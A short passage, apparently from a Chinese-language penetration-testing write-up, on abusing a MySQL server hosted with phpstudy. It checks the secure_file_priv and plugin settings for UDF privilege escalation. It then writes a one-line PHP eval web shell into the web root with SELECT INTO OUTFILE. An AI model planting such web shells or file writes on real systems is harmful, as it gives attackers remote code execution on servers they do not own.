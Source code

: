 Secure_file_priv为空，可以写文件，看看plugins目录在哪儿，便于udf提权

```
show variables like '%plugin%';
```

![QQ_1732795338789](images/11.png)

意外发现，这是phpstudy起的服务，那直接写一个webshell先，直接selete into outfile

```
select '<?php eval($_REQUEST[1]);?>' into outfile 'C:\\phpstudy_pro\\WWW\\1.php';
```
